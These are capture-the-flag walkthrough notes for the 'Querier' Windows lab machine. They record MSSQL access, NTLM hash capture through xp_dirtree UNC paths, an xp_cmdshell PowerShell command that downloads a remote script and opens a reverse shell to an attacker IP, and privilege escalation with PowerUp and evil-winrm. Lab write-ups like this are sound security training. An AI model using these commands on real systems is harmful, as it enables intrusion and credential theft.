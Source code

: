 # Querier - Walkthrough (Windows)

## 🧗 Initial Foothold

### 🔌 1. Port and SMB Enumeration
- Found **port 1433 (MSSQL)** open.
- Also found an open **SMB share**.
- Downloaded and unzipped contents — found `vbaProject.bin`.
- Ran `strings` on `vbaProject.bin` → extracted credentials.

### 🛠️ 2. Logging into MSSQL
- Used credentials with:
```bash
impacket-mssqlclient user@10.10.x.x
```

### 📤 3. Enumerating via UNC Paths
- Started SMB server on attacker machine:
```bash
impacket-smbserver ninjafolder $(pwd) -smb2support
```

- On target (inside MSSQL), ran:
```sql
EXEC xp_dirtree '\10.10.16.21\ninjafolder\file'
EXEC xp_fileexist '\10.10.16.21\ninjafolder\file'
```

- Captured **hash + username**, cracked with `john`.

### 🪟 4. Reverse Shell via xp_cmdshell + PowerShell
- Logged in again with stronger user.
- Enabled `xp_cmdshell`, then:
```sql
EXEC xp_cmdshell 'powershell "IEX(New-Object Net.WebClient).downloadString(''http://10.10.16.21/shell.ps1''); Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.21 -Port 445"';
```

> Full setup referenced here:  
> [powershell reverse shell notes](obsidian://open?vault=Obsidian%20Vault&file=powershell%20and%20cmd%20commands%20for%20rev%20shell)

---

## ⚙️ Privilege Escalation

### 🔍 1. Local Enumeration
- Uploaded and executed `PowerUp.ps1`

### 🔑 2. Cleartext Admin Creds
- Found **Administrator password** in output.
- Logged in via:
```bash
evil-winrm -i 10.10.x.x -u Administrator -p 'password'
```

---

## 🧠 Notes
- MSSQL + xp_dirtree is a great method for capturing NTLM hashes.
- `PowerUp.ps1` is very effective for catching creds in plaintext or config files.
- xp_cmdshell is gold if enabled or can be re-enabled.
